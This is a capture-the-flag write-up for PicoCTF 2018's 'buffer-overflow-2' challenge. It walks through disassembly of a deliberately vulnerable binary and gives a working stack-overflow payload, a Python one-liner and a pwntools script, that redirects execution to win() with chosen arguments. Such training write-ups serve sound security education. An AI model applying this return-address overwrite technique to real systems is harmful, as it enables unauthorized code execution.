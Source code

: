 # Write-up for buffer-overflow-2 challenge
# PicoCTF_2018: buffer-overflow-2

**Category:** Binary Exploitation
**Points:** 250

> Alright, this time you'll need to control some arguments. Can you get the flag from this program? 
You can find it in /problems/buffer-overflow-2_1_63b4b691601811c553a7c19e367737b9 on the shell server. Source.

Let's run the program first:

```console
$ ./vuln
Please enter your string: 
AAAA
AAAA
```

Okay, we don't have anything useful.
It's time to disassemble the program.
 
I'll skip `main()` to go  straight to `vuln()`.

```asm
Dump of assembler code for function vuln:
   0x08048646 <+0>:	push   ebp
   0x08048647 <+1>:	mov    ebp,esp
   0x08048649 <+3>:	sub    esp,0x78
   0x0804864c <+6>:	sub    esp,0xc
   0x0804864f <+9>:	lea    eax,[ebp-0x6c]
   0x08048652 <+12>:	push   eax
   0x08048653 <+13>:	call   0x8048430 <gets@plt>
   0x08048658 <+18>:	add    esp,0x10
   0x0804865b <+21>:	sub    esp,0xc
   0x0804865e <+24>:	lea    eax,[ebp-0x6c]
   0x08048661 <+27>:	push   eax
   0x08048662 <+28>:	call   0x8048460 <puts@plt>
   0x08048667 <+33>:	add    esp,0x10
   0x0804866a <+36>:	nop
   0x0804866b <+37>:	leave  
   0x0804866c <+38>:	ret    
End of assembler dump.
```

We have the same vulnerability with buffer-overflow-2. 
Now, buffer's size is 0x6c (108 decimal).

Like the previous challenge there is a `win()` function that we want to return.
But, it wouldn't be enough for this challenge to jump to win function ofcourse.
Let's analyze them.

```asm
Dump of assembler code for function win:
   0x080485cb <+0>:	push   ebp
   0x080485cc <+1>:	mov    ebp,esp
   0x080485ce <+3>:	sub    esp,0x58
   0x080485d1 <+6>:	sub    esp,0x8
   0x080485d4 <+9>:	push   0x8048750
   0x080485d9 <+14>:	push   0x8048752
   0x080485de <+19>:	call   0x80484a0 <fopen@plt>
   0x080485e3 <+24>:	add    esp,0x10
   0x080485e6 <+27>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485e9 <+30>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485ed <+34>:	jne    0x8048609 <win+62>
   0x080485ef <+36>:	sub    esp,0xc
   0x080485f2 <+39>:	push   0x804875c
   0x080485f7 <+44>:	call   0x8048460 <puts@plt>
   0x080485fc <+49>:	add    esp,0x10
   0x080485ff <+52>:	sub    esp,0xc
   0x08048602 <+55>:	push   0x0
   0x08048604 <+57>:	call   0x8048470 <exit@plt>
   0x08048609 <+62>:	sub    esp,0x4
   0x0804860c <+65>:	push   DWORD PTR [ebp-0xc]
   0x0804860f <+68>:	push   0x40
   0x08048611 <+70>:	lea    eax,[ebp-0x4c]
   0x08048614 <+73>:	push   eax
   0x08048615 <+74>:	call   0x8048440 <fgets@plt>
   0x0804861a <+79>:	add    esp,0x10
   0x0804861d <+82>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x08048624 <+89>:	jne    0x8048640 <win+117>
   0x08048626 <+91>:	cmp    DWORD PTR [ebp+0xc],0xdeadc0de
   0x0804862d <+98>:	jne    0x8048643 <win+120>
   0x0804862f <+100>:	sub    esp,0xc
   0x08048632 <+103>:	lea    eax,[ebp-0x4c]
   0x08048635 <+106>:	push   eax
   0x08048636 <+107>:	call   0x8048420 <printf@plt>
   0x0804863b <+112>:	add    esp,0x10
   0x0804863e <+115>:	jmp    0x8048644 <win+121>
   0x08048640 <+117>:	nop
   0x08048641 <+118>:	jmp    0x8048644 <win+121>
   0x08048643 <+120>:	nop
   0x08048644 <+121>:	leave  
   0x08048645 <+122>:	ret    
End of assembler dump.
```

In the first lines, program opens flag.txt file but we see 2 very important lines:

```asm
   0x0804861d <+82>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x08048624 <+89>:	jne    0x8048640 <win+117>
   0x08048626 <+91>:	cmp    DWORD PTR [ebp+0xc],0xdeadc0de
   0x0804862d <+98>:	jne    0x8048643 <win+120>
```

First of all, we have to clear something. If you know how C programs lie in memory you would see that `win()` function takes two arguments
. These values are stored at ebp + 0x8 and ebp + 0xc (ebp + 0x10 if there  were more etc.). 

So, to print the flag arg1 must be 0xdeadbeef and arg2 0xdeadc0de.

How could we intervene to those values?

Think about it...
Before we call RET instruction inside `vuln`  esp contains X address and program is at address X + 0x4.  We've changed return address in order to jump to `win`.
With ret instruction we pop return address from stack, so now inside esp we find X + 0x4. 
Then, prolog of `win` function comes:
```asm
0x080485cb <+0>:	push   ebp
0x080485cc <+1>:	mov    ebp,esp
```

We push ebp, so esp is again X and then ebp of win function == esp of vuln function just before ret instruction which is ebp + 0x4 of vuln function. 
So, quick mats we have to place the 2 arguments at ebp + 0xc and ebp + 0x10. That's it, buffer overflow technique exactly the same as in the previous challenge. 

> # Crafting the exploit

```bash
python -c 'print "A"*112 + "\xcb\x85\x04\x08" + "\x90"*4 + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde"' > payload

./vuln < payload
```

Python script:

```python
#!/usr/bin/python

from pwn import *
import struct

user = 'XXXX'
pw = 'XXXX'


vuln = ELF('./vuln')
payload = 'A' * 112
payload += p32(vuln.symbols['win'])
payload += "\x90" * 4
payload += struct.pack("I", 0xdeadbeef)
payload += struct.pack("I", 0xdeadc0de)

s = ssh(host = '2018shell4.picoctf.com', user = user, password = pw)
s.set_working_directory('/problems/buffer-overflow-2_1_63b4b691601811c553a7c19e367737b9')

r = s.process('./vuln')
print r.recv()
r.sendline(payload)
print r.recv()
r.close()
```



